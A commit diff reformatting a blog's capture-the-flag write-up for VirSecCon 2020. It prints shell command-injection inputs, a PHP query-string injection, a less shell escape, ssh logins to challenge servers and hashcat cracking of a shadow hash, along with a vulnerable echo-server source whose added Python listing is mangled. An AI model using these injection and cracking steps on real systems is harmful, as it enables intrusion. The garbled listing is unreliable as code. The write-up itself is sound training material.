

Before and after one commit to nbaertsch/nbaertsch.github.io, a Jekyll site: the page built from _posts/2020-04-06-virseccon-ctf.md, in a window 1280 px wide. Shown: the part 2220-4140 px from the top of the page at 70% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; emoji names are drawn with the system emoji font; some of the changed text lies outside the part shown.

Commit message:
formatting post

````diff
--- a/_includes/footer.html
+++ b/_includes/footer.html
@@ -2,7 +2,7 @@
     <nav class="nav_bar">
         <ul>
             <li class="copyright">
-                © 2019
+
             </li>
             {% if site.statement %}
             <li>
--- a/_posts/2020-04-06-virseccon-ctf.md
+++ b/_posts/2020-04-06-virseccon-ctf.md
@@ -94,6 +94,7 @@ Nsbst
 
 Flag is commented out in the source of the rules page.
 
+<br/>
 :checkered_flag: `LLS{you_are_ready_to_HACK_THE_PLANET}`
 <br/>
 <br/>
@@ -104,6 +105,7 @@ Flag is commented out in the source of the rules page.
 File `believe_your_eyes.rar` is a .png file.
 `cat` the file into `strings` and `grep` for the flag.
 
+<br/>
 :checkered_flag: `LLS{if_ten_million_fireflies}`
 <br/>
 <br/>
@@ -114,6 +116,7 @@ File `believe_your_eyes.rar` is a .png file.
 File `yarn` is a large file of garbage data.
 Same as before, `cat` the file into `strings` and `grep` for the flag.
 
+<br/>
 :checkered_flag: `LLS{it_was_just_a_ball_of_strings}`
 <br/>
 <br/>
@@ -124,10 +127,13 @@ Same as before, `cat` the file into `strings` and `grep` for the flag.
 File `woofer.jpg` is provided.
 `file woofer.jpg` reveals a comment in the image:
 `comment: "b'TExTe2RvZ2dvX3NheXNfc3VjaF9iYXNlNjRfdmVyeV93b3d9'"`.
+<br/>
+Appears to be base64. Decode it for the flag.
+```sh
+echo 'TExTe2RvZ2dvX3NheXNfc3VjaF9iYXNlNjRfdmVyeV93b3d9' | base64 -d`
+```
 
-Appears to be base64. Decode it for the flag.
-`echo 'TExTe2RvZ2dvX3NheXNfc3VjaF9iYXNlNjRfdmVyeV93b3d9' | base64 -d`
-
+<br/>
 :checkered_flag: `LLS{doggo_says_such_base64_very_wow}`
 <br/>
 <br/>
@@ -136,12 +142,13 @@ Appears to be base64. Decode it for the flag.
 > It’s a website scavenger hunt!
 
 File `dotcom_scavenger_hunt.zip` unzips to a .com directory structure.
-
+<br/>
 Recursively search through every file for the flag with `grep`.
 `grep -r './nothinginthebox.com' -e 'LLS'`
-
+<br/>
 This could have been done more elegantly, but this gets us what we want; two files containing 'LLS'.  You can `grep` through each file seperately, or look through the output of the first command to find the flag.
 
+<br/>
 :checkered_flag: `LLS{just_find_it_with_grep}`
 <br/>
 <br/>
@@ -150,22 +157,22 @@ This could have been done more elegantly, but this gets us what we want; two fil
 > Ssssh, don't wake the flag!  **(Yes, that is intended behavior.)**
 
 We are give `ssh user@jh2i.com -p 50035 # password is 'userpass'` so let's connect.
-
+<br/>
 We are immediately kicked out.
-```
+```sh
 ssh user@jh2i.com -p 50035
 user@jh2i.com's password:
 Last login: Fri Apr  3 20:22:50 2020 from 167.172.141.127
 Connection to jh2i.com closed.
 ```
-
+<br/>
 We can run some commands directly from the ssh connection without getting a shell back.
 ```
 ssh user@jh2i.com -p 50035 ls
 user@jh2i.com's password:
 flag.txt
 ```
-
+<br/>
 There is the flag.  Let's grab it.
 ```
 ssh user@jh2i.com -p 50035 cat flag.txt
@@ -173,6 +180,7 @@ user@jh2i.com's password:
 LLS{automate_ssh_like_a_boss}
 ```
 
+<br/>
 :checkered_flag: `LLS{automate_ssh_like_a_boss}`
 <br/>
 <br/>
@@ -181,34 +189,36 @@ LLS{automate_ssh_like_a_boss}
 > I checked the mailbox, and I found this bundled up package! Can you make any sense of it?
 
 We are given a file `packd`.
-```
+```sh
 file packd
 packd: ELF 32-bit LSB executable, Intel 80386, version 1 (GNU/Linux), statically linked, no section header
 ```
-
+<br/>
 Running the binary doesnt give us anything helpful.
-```
+```sh
 ./packd
 Oh! This package must have been shipped to the wrong address!%
 ```
-
+<br/>
 Standard `grep` tells us where *part* of the flag is.
-	`cat packd | strings | grep -n LLS
-	2522:LLS{`
-
+```sh
+cat packd | strings | grep -n LLS
+2522:LLS{
+```
+<br/>
 Let's narrow things down with `sed` and force `grep` to treat this binary as text with `-a`.
-```
+```sh
 sed '2520,2524p' packd | grep -a LLS
 ��$�i�3tL��L���E���6��L>��#��_������@Oh! This ~���package mus�havbeen s����6pped toh&wrong address~ko�!HOMrsome6i._unnec}���0ary�LLS{�5an_ex��ݿ8utable_cbdw_da����*}C�ruli� Y��f�ou'v�▒�DO NOT LIW����IT�UAEAS
 ```
-
+<br/>
 On those same lines I found
-```
+```sh
 Info: This file is packed with the UPX executable packer http://upx.sf.net $
 $Id: UPX 3.96 Copyright (C) 1996-2020 the UPX Team. All Rights Reserved.
 ```
 This might come in handy.
-
+<br/>
 I installed upx with `apt` and tried to unpack `packd` with `upx -d packd`
 ```
                        Ultimate Packer for eXecutables
@@ -220,13 +230,13 @@ UPX 3.95        Markus Oberhumer, Laszlo Molnar & John Reiser   Aug 26th 2018
 Unpacked 1 file.
 ```
 Success!
-
+<br/>
 Let's try to search again
-```
+```sh
 grep -a LLS < packd
 Oh! This package must have been shipped to the wrong address!HOMEsomething_unnecessaryLLS{packing_an_executable_can_hide_some_data}Congratulations! You've won!DO NOT LIFT WITHOUT AT LEAST 2 PERSONSFragile: Please handle with care../csu/libc-start.ci686i586FATAL: kernel too old
 ```
-
+<br/>
 :checkered_flag: `LLS{packing_an_executable_can_hide_some_data}`
 <br/>
 <br/>
@@ -245,9 +255,6 @@ Uh.. what?
 
 ### Count Dracula (75) :x:
 Integer overflow, IDK how to escelate this.
-
-<br/>
-<br/>
 
 ### TackStack (100) :x:
 
@@ -279,22 +286,22 @@ Integer overflow, IDK how to escelate this.
 > Hmmm… maybe missing a hyphen somewhere?  Note: This challenge is reset every five minutes. If you are on the wrong side of the clock, you may need to reconnect.
 
 We are given ssh creds `ssh user@jh2i.com -p 50004 # password is 'userpass'`
-
+<br/>
 Initial recon shows the flag.txt
-```
+```sh
 user@a32e554fa667:~$ ls
 flag.txt
 user@a32e554fa667:~$ cat
 user@a32e554fa667:~$ cat flag.txt
 ```
-
+<br/>
 We can't seem to `cat` as this user (no shit look at the challenge name).  Like the quiet shell challenge, we can run commands directly from the ssh command.
-```
+```sh
 ssh user@jh2i.com -p 50004 cat flag.txt
 user@jh2i.com's password:
 LLS{you_let_the_cat_out_of_the_bag}
 ```
-
+<br/>
 :checkered_flag: `LLS{you_let_the_cat_out_of_the_bag}`
 <br/>
 <br/>
@@ -304,7 +311,7 @@ LLS{you_let_the_cat_out_of_the_bag}
 
 Another remote shell `ssh user@jh2i.com -p 50015 # password is 'userpass'`
 
-```
+```sh
 user@b833b58b377f:~$ ls -la
 total 32
 dr-xr-xr-x 1 user user 4096 Oct 28 19:13 .
@@ -314,26 +321,26 @@ drwxr-xr-x 1 root root 4096 Oct 28 19:13 ..
 -rw-r--r-- 1 user user  807 Apr  4  2018 .profile
 drwxr-xr-x 1 root root 4096 Apr  3 19:52 .secret
 ```
-
+<br/>
 But the .secret dir is empty?
-```
+```sh
 user@b833b58b377f:~/.secret$ ls -la
 total 12
 drwxr-xr-x 1 root root 4096 Apr  3 19:52 .
 dr-xr-xr-x 1 user user 4096 Oct 28 19:13 ..
 ```
-
+<br/>
 Bashed my head against a wall for an hour and came back to this.
-```
+```sh
 user@ebbb47e22daa:~$ ls -la .secret/
 total 12
 drwxr-xr-x 1 root root 4096 Mar 30 00:12 .
 dr-xr-xr-x 1 user user 4096 Oct 28 19:13 ..
 -rw-r--r-- 1 root root   33 Mar 30 00:12 ._dont_delete_me.txt
 ```
-
+<br/>
 People are dicks...
-
+<br/>
 :checkered_flag: `LLS{you_found_my_hidden_secrets}`
 <br/>
 <br/>
@@ -342,50 +349,80 @@ People are dicks...
 > The Internet’s new echo server. Break it.
 
 We are given `nc jh2i.com 50006`
-
+<br/>
 Greeted with:
-```
+```sh
 'Chasm' echo server 1.0
 > echo
 ECHO: echo
 ```
-
+<br/>
 This is something...
-```> $0
+```sh
+> $0
 ECHO: /bin/sh
 ```
-
-```> $(pwd)
+<br/>
+```sh
+> $(pwd)
 ECHO: /home/john
 ```
-
-```
+<br/>
+```sh
 > $(ls -a)
 ECHO: . .. flag.txt server.py
 ```
-
+<br/>
 Damn...
-```
+```sh
 > $(cat flag.txt)
 HACKER! YOU ARE A HACKER! GET OUT OF THE CHASM!
 ```
+<br/>
+Let's check out that python file.
+```sh
+> $(cat server.py)
+```
+```python
+#!/usr/bin/env python
 
-Let's check out that python file.
+#- * -coding: utf - 8 - * -#@Author: john# @Date: 2017 - 01 - 16 10: 17: 31# @Last Modified by: john# @Last Modified time: 2017 - 02 - 10 22: 17: 34
+import sys
+import textwrap
+import SocketServer
+import string
+import readline
+import threading from time
+import flag.txt server.py from subprocess
+import check_output
+debug = True
+if debug: def success(string): print("[+] " + string) def error(string): sys.stderr.write("[-] " + string + "
+    ") def warning(string): print(" [!]
+    " + string + "
+    ") def info(string): print(" [.]
+    " + string + "
+    ") class Service(SocketServer.BaseRequestHandler): def handle(self): self.send("
+    'Chasm'
+    echo server 1.0 ") while 1: try: got = self.receive() if "
+    flag " in got: self.send("
+    HACKER!YOU ARE A HACKER!GET OUT OF THE CHASM!") continue response = check_output("
+    echo " + got, shell=True) self.send("
+    ECHO: " + response) except: self.send("
+    ERROR!That echo floated away the chasm
+    for eternity...") def send(self, string, newline=True): if newline: string = string + "
+    " self.request.sendall(string) def receive(self, prompt=" > "): self.send(prompt, newline=False) return self.request.recv(4096).strip() class ThreadedService( SocketServer.ThreadingMixIn, SocketServer.TCPServer, SocketServer.DatagramRequestHandler, ): pass def main(): info("
+    Starting server...") port = 7312 host = "
+    0.0 .0 .0 " service = Service server = ThreadedService((host, port), service) server.allow_reuse_address = True server_thread = threading.Thread(target=server.serve_forever) server_thread.daemon = True server_thread.start() success("
+    Server started on " + str(server.server_address) + "!") # Now let the main thread just wait... while True: sleep(10) if __name__ == "
+    __main__ ": main()```
 ```
-> $(cat server.py)
-ECHO: #!/usr/bin/env python # -*- coding: utf-8 -*- # @Author: john # @Date: 2017-01-16 10:17:31 # @Last Modified by: john # @Last Modified time: 2017-02-10 22:17:34 import sys import textwrap import SocketServer import string import readline import threading from time import flag.txt server.py from subprocess import check_output debug = True if debug: def success(string): print("[+] " + string) def error(string): sys.stderr.write("[-] " + string + "
-") def warning(string): print("[!] " + string + "
-") def info(string): print("[.] " + string + "
-") class Service(SocketServer.BaseRequestHandler): def handle(self): self.send("'Chasm' echo server 1.0") while 1: try: got = self.receive() if "flag" in got: self.send("HACKER! YOU ARE A HACKER! GET OUT OF THE CHASM!") continue response = check_output("echo " + got, shell=True) self.send("ECHO: " + response) except: self.send("ERROR! That echo floated away the chasm for eternity...") def send(self, string, newline=True): if newline: string = string + "
-" self.request.sendall(string) def receive(self, prompt="> "): self.send(prompt, newline=False) return self.request.recv(4096).strip() class ThreadedService( SocketServer.ThreadingMixIn, SocketServer.TCPServer, SocketServer.DatagramRequestHandler, ): pass def main(): info("Starting server...") port = 7312 host = "0.0.0.0" service = Service server = ThreadedService((host, port), service) server.allow_reuse_address = True server_thread = threading.Thread(target=server.serve_forever) server_thread.daemon = True server_thread.start() success("Server started on " + str(server.server_address) + "!") # Now let the main thread just wait... while True: sleep(10) if __name__ == "__main__": main()
-```
-
+<br/>
 So the server is killing our command execution if it reads the word 'flag'. Simple enough.
-```
+```sh
 > $(cat fl?g.txt)
 ECHO: LLS{dangerous_echos_in_this_chasm}
 ```
-
+<br/>
 :checkered_flag: `LLS{dangerous_echos_in_this_chasm}`
 <br/>
 <br/>
@@ -394,16 +431,16 @@ ECHO: LLS{dangerous_echos_in_this_chasm}
 > This public computer kiosk is weird! It just offers the man page for less?
 
 ssh again `ssh user@jh2i.com -p 50021 # password is 'userpass'`
-
+<br/>
 Just as the prompt suggests, we get the man page for less, and then we are kicked off when we quit out of man.
-
+<br/>
 I tried appending commands to the ssh, but the appended commands run before the man page, and the man page fills the terminal line buffer (terminology here?) so we can't see our commands output.
-
+<br/>
 Since `man` pages are shown in `less`, it makes sense to RTFM...  A shell escape stands out:
-```
+```sh
 !command             Execute the shell command with $SHELL.
 ```
-
+<br/>
 :checkered_flag: `LLS{less_is_more}`
 <br/>
 <br/>
@@ -412,9 +449,9 @@ Since `man` pages are shown in `less`, it makes sense to RTFM...  A shell escape
 > I keep trying to run this program, but I get "Permission Denied." What gives!??
 
 Another ssh port `ssh user@jh2i.com -p 50025 # password is 'userpass'`
-
+<br/>
 Well it looks like I get a freebie on this one.
-```
+```sh
  ls -la
 total 40
 dr-xr-xr-x 1 user user 4096 Mar 30 00:12 .
@@ -424,15 +461,15 @@ drwxr-xr-x 1 root root 4096 Oct 28 19:10 ..
 -rw-r--r-- 1 user user  807 Apr  4  2018 .profile
 -rwxrwxr-x 1 root root 8232 Mar 30 00:12 give_flag
 ```
-
+<br/>
 I'm guessing the permission is not supposed to be executable right off the bat..
-```
+```sh
 user@39dc7b8c3dec:~$ ./give_flag
 LLS{who_even_needs_chmod}
 ```
-
+<br/>
 The box was reset so I can walk through the intended solution.  Below is how the home dir is supposed to look.
-```
+```sh
 user@3711c4232e47:~$ ls -la
 total 32
 dr-xr-xr-x 1 user user 4096 Mar 31 14:39 .
@@ -442,13 +479,13 @@ drwxr-xr-x 1 root root 4096 Oct 28 19:10 ..
 -rw-r--r-- 1 user user  807 Apr  4  2018 .profile
 -r--r--r-- 1 root root 8232 Mar 31 14:39 give_flag
 ```
-
+<br/>
 No `hexdump` or `xxd` or even `cat` on this box (likely blocked with alias), but `od` worked.  Looking through it manually revealed the flag
-```
+```sh
 0002600 001  \0 002  \0   L   L   S   {   w   h   o   _   e   v   e   n
 0002620   _   n   e   e   d   s   _   c   h   m   o   d   }  \0  \0  \0
 ```
-
+<br/>
 :checkered_flag: `LLS{who_even_needs_chmod}`
 <br/>
 <br/>
@@ -457,9 +494,9 @@ No `hexdump` or `xxd` or even `cat` on this box (likely blocked with alias), but
 > pdfmax version 1.0! The new online cloud interpreter. All a student could ever need!
 
 Netcat again `nc jh2i.com 50029`
-
+<br/>
 We are greeted with:
-```
+```sh
 pdfmax1.0) What would you like to do?
 1) About pdfmax
 2) Create
@@ -467,9 +504,9 @@ pdfmax1.0) What would you like to do?
 4) Download
 >
 ```
-
+<br/>
 So I created a valid .tex file and hit the compile command and... Nothing.
-
+<br/>
 So we move on...
 <br/>
 <br/>
@@ -478,14 +515,17 @@ So we move on...
 > Oops! I tripped and my flag fell down this abyss!
 
 We are given `obfuscabyss.zip` which extracts to `brainfuck.txt`
-
+<br/>
 Looking at the file, this is obviously brainfuck code.  Let's grab an interpreter and jump down the rabbit hole.
-```
+```sh
 sudo apt install beef
 ```
-
-`beef -o brainfuck.out brainfuck.txt` gives us a file with a bunch of punctuation marks.
-
+<br/>
+```sh
+beef -o brainfuck.out brainfuck.txt
+```
+gives us a file with a bunch of punctuation marks.
+<br/>
 I am stuck from here, may revisit.
 
 <br/>
@@ -495,9 +535,9 @@ I am stuck from here, may revisit.
 > Oh no! We are locked in a pyg-pen! Help us break out.
 
 Another talkative port, this time on `jh2i.com 50032`
-
+<br/>
 Judging by the name of the challenge, I am guessing it is a python interpreter, but responses are non-elucidating (is that a word?)
-```
+```sh
 > ls
 Exception: name 'ls' is not defined
 > !
@@ -508,10 +548,9 @@ Exception: name 'string' is not defined
 Exception: invalid syntax (<string>, line 1)
 > $(SHELL)
 ```
-
-
+<br/>
 This is a different error at least
-```
+```sh
 > os.system('ls -l')
 Exception: EOL while scanning string literal (<string>, line 1)
 ```
@@ -527,15 +566,15 @@ Exception: EOL while scanning string literal (<string>, line 1)
 > We hear something beeping... is there something in the oven?
 
 We are told to conect to this address `http://jh2i.com:50036`.
-
+<br/>
 This one has us looking at a static html page with alink to a `defuse.php` script.
-
+<br/>
 Click it, we are told we are "too late".
-
+<br/>
 If you look for cookies in the dev options pane you see defuse_time.
-
+<br/>
 Set that to a a large number and see what happens.
-
+<br/>
 :checkered_flag: `LLS{saving_lives_with_cookies}`
 <br\>
 <br\>
@@ -544,8 +583,8 @@ Set that to a a large number and see what happens.
 > Access to all the latest modules, hot off the press! What can you access?
 
 This is the address ` http://jh2i.com:50016`.
-
-
+<br/>
+<br/>
 
 ### Magician (80) :x:
 
@@ -561,7 +600,7 @@ This is the address ` http://jh2i.com:50016`.
 > Only 10 char--
 
 Navigate to a given address `http://jh2i.com:5000` and we are greeted with:
-```
+```php
 <?php
 
     $c = $_GET[c];
@@ -574,12 +613,12 @@ Navigate to a given address `http://jh2i.com:5000` and we are greeted with:
     highlight_file(__FILE__);
 ?>
 ```
-
+<br/>
 Looks like we get shell execution, as long as its under 10 chracters.  Let's try it.
 ```
 http://jh2i.com:50001/?c=ls%20fl*
 ```
-```
+```php
 flag.txt
 <?php
 
@@ -593,12 +632,12 @@ flag.txt
     highlight_file(__FILE__);
 ?>
 ```
-
+<br/>
 As you can see we can cut down the input length of commands with wildcards.  Let's `cat` the flag and move on.
 ```
 http://jh2i.com:50001/?c=cat%20*.txt
 ```
-```
+```php
 LLS{you_really_can_see_in_the_dark}
 <?php
 
@@ -612,9 +651,8 @@ LLS{you_really_can_see_in_the_dark}
     highlight_file(__FILE__);
 ?>
 ```
-
+<br/>
 :checkered_flag: `LLS{you_really_can_see_in_the_dark}`
-
 <br\>
 <br\>
 ### Sequelitis (100) :x:
@@ -674,36 +712,36 @@ LLS{you_really_can_see_in_the_dark}
 > Oh no! Can you please help me retrieve my password?  **To submit this flag, you must wrap the discovered password in the typical flag format.**
 
 We are given a `passwd` and `shadow` file.  This should be straightforward with either John the Ripper or Hashcat. I will use Hashcat.
-```
+```sh
 sudo apt install hashcat
 ```
-
+<br/>
 Run `clinfo` to make sure your preffered cracking device is able to run OpenCL.
-
+<br/>
 Okay, grab the password hash from `shadow` and put it in its own file, `hash`.
-```
+```sh
 grep john < shadow
 john:$6$s.e1vJFx9a3RMVUM$etzkgAvXdiyR/5vBWFzC4J.ECadUJkDi6MUiOEJfc1mo3Z7VeWZKv1iWSvW8XQ8zC5bK8kTvWCs7iw5Hy3ve/0:18205:0:99999:7:::`
 `echo '$6$s.e1vJFx9a3RMVUM$etzkgAvXdiyR/5vBWFzC4J.ECadUJkDi6MUiOEJfc1mo3Z7VeWZKv1iWSvW8XQ8zC5bK8kTvWCs7iw5Hy3ve/0' > hash
 ```
-
+<br/>
 Before we can crack it, we need to know what type of hash this is.
 `hashID` comes pre-installed on Kali, but can be installed on any system with `pip3 install hashid`.
-
+<br/>
 The `-m` option will tell us what mode to use for the given hash in hashcat.
-```
+```sh
 hashid -m < hash
 Analyzing '$6$s.e1vJFx9a3RMVUM$etzkgAvXdiyR/5vBWFzC4J.ECadUJkDi6MUiOEJfc1mo3Z7VeWZKv1iWSvW8XQ8zC5bK8kTvWCs7iw5Hy3ve/0'
 [+] SHA-512 Crypt [Hashcat Mode: 1800]
 ```
-
+<br/>
 Let's try it.  I am using [this](https://github.com/berzerk0/Probable-Wordlists/blob/master/Real-Passwords/Top304Thousand-probable-v2.txt) wordlist.
-```
+```sh
 hashcat --force --potfile-disable -a 0 -m 1800 -o hascat.out hash ~/Documents/wordlists/Top304Thousand-probable-v2.txt
 ```
-
+<br/>
 It was cracked even on my old laptop, must be a simple password.
-```
+```sh
 Session..........: hashcat
 Status...........: Cracked
 Hash.Type........: sha512crypt $6$, SHA512 (Unix)
@@ -720,29 +758,28 @@ Restore.Point....: 23040/303872 (7.58%)
 Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:4992-5000
 Candidates.#1....: kokanee -> scared
 ```
-
+<br/>
 The password is in the specified output file.
-
+<br/>
 :checkered_flag: `LSS{whiterose}`
-
 <br/>
 <br/>
 
 ### QUACK (80) :x:
 > We found this binary on a USB drive someone left lying around. There was a note attached, that read: “you’re the one.”
-
+<br/>
 This one has me beat...
 
 ### Tragic Number (95) :trophy:
 > For some reason this zip archive wont unzip. Help!
 
 Running `file tragic_number.zip` returns:
-```
+```sh
 tragic_number.zip: Zip archive data, made by v?[0x31e], extract using at least v2.0, last modified Thu Oct 18 06:10:02 2012, uncompressed size 42, method=deflate
 ```
-
+<br/>
 Running `unzip -l tragic_number.zip` shows a `flag.txt` file in the zip.
-```
+```sh
 Archive:  tragic_number.zip
   Length      Date    Time    Name
 ---------  ---------- -----   ----
@@ -750,8 +787,8 @@ Archive:  tragic_number.zip
 ---------                     -------
        42                     1 file
 ```
-
-```
+<br/>
+```sh
 unzip -v tragic_number.zip
 Archive:  tragic_number.zip
  Length   Method    Size  Cmpr    Date    Time   CRC-32   Name
@@ -760,9 +797,9 @@ Archive:  tragic_number.zip
 --------          -------  ---                            -------
       42               35  17%                            1 file
 ```
-
+<br/>
 Next attempt was a hexdump.
-```
+```sh
 hexdump -C tragic_number.zip
 00000000  48 34 43 4b 14 00 00 00  08 00 3a 9d 7f 50 2a 0a  |H4CK......:..P*.|
 00000010  e5 b6 23 00 00 00 2a 00  00 00 08 00 1c 00 66 6c  |..#...*.......fl|
@@ -779,20 +816,19 @@ hexdump -C tragic_number.zip
 000000c0  00 00 00 65 00 00 00 00  00                       |...e.....|
 000000c9
 ```
-
+<br/>
 Notice the first four bytes.  Some Googling reveals that magic bytes for a zip archiver should be `(0x50 0x4B 0x03 0x04)`.
-
+<br/>
 Time to pull out the hex editor...
-
+<br/>
 Replacing 'H4CK' with the correct magic bytes allows us to unzip the archive and reveal the `flag.txt`.
-```
+```sh
 unzip magic_number.zip
 Archive:  magic_number.zip
   inflating: flag.txt
 ```
-
+<br/>
 :checkered_flag: `LLS{tragic_number_more_like_magic_number}`
-
 <br/>
 <br/>
 
--- a/assets/css/main.scss
+++ b/assets/css/main.scss
@@ -158,7 +158,7 @@ $blk-timing-function: cubic-bezier(0.98, -0.23, 0.65, 0.7);
         min-height: 90%;
         // code highlight
         pre {
-          border: 0.6px solid $color-primary;
+          border: 1px solid $color-primary;
         }
         // table style
         table {
````
